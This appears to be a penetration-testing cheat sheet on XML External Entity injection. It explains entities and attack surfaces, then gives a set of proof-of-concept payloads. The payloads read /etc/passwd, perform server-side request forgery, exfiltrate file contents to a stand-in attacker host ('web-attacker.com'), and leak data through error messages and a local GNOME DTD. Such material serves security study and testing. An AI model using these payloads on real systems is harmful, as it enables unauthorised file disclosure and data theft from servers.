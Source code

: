 # XML eXternal Entity injection
When XML parsers support potentially dangerous features, that allows an attacker to inject specific XML payloads that can compromise the server.

It arises when the submitted XML is not validated or defended properly. An attacker must:
- Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file (to read)
- Edit a data value in the XML that is returned to the applications response, to make use of the defined external entity

### XML
The eXtensible Markup Language is used for data storing and stuff. The Document Type Definition (DTD) contains declarations that define the structure of an XML document. The DTD is declared in the DOCTYPE element. Using the DTD, custom XML entities can be defined. For example:
```xml
<!DOCTYPE foo [ <!ENTITY myentity "my new value lol" > ]>
```
This now means that any refernce to `&myentity;` within the XML document will be replaced with the defined value.

External entities use the keyword `SYSTEM` and must specify a website with the `http(s)://` protocol, or a path to file with the `file://` protocol. See example [here](#read-file).

There are also XML parameter entities. These are defined with the `%` character before the name, and are referenced using `%myparameterentity;`. Parameter entities can only be used within the DTD:
```xml
<!DOCTYPE foo [ <!ENTITY % myparameterentity "my parameter entity value" > %myparameterentity; ]>
```

## Vulnerabilities & Attack Surfaces
Try reformatting request content to type `text/xml`, because sometimes this is allowed by the server. This can reveal more attack surfaces. Like this:
```xml
<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

### XInclude
It is not always possible to inject a new DOCTYPE element. Then you can always try to use XInclude which can be placed in any data value. [PoC](#xinclude--read-file)

Useful when you only control a single data field that is placed into a server-side XML document.

### File Upload
When you are allowed to upload files which are processed server-side. When it is possible to upload XML-based file formats like `.docx` and `.svg`, an attacker can upload malicious files with an XXE payload. [PoC](#svg--read-file)

### Blind XXE
When you don't get any data returned from the application, it might be hard to retrieve data, or to know if the attack worked. 
- Use OAST techniques to get info through an attacker controlled domain [PoC](#blind-xxe--read-file)
- Make use of error messages that include sensitive information [PoC](#blind-xxe--error)
- In internal DTD, it is (most likely) not allowed to use XML parameter entities with the definition of another. It is permitted in external DTDs, but not internal DTDs. This is when you can make use of common internal DTDs to still retrieve data [PoC](#blind-xxe--internal-dtd). XML is chill like that.

## Proof of Concepts

### Read File
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

### XInclude | Read File
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### SVG | Read File
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

### XXE -> SSRF
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

### Blind XXE | Read File
```xml
<!DOCTYPE foo [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
]>
```

### Blind XXE | Error
```xml
<!DOCTYPE foo [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
]>
```

### Blind XXE | Internal DTD
This for Linux systems using the GNOME desktop environment that often have a [DTD file](https://github.com/GNOME/yelp/blob/master/data/dtd/docbookx.dtd) at `/usr/share/yelp/dtd/docbookx.dtd`, which defines a parameter entity `ISOamsa`.
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```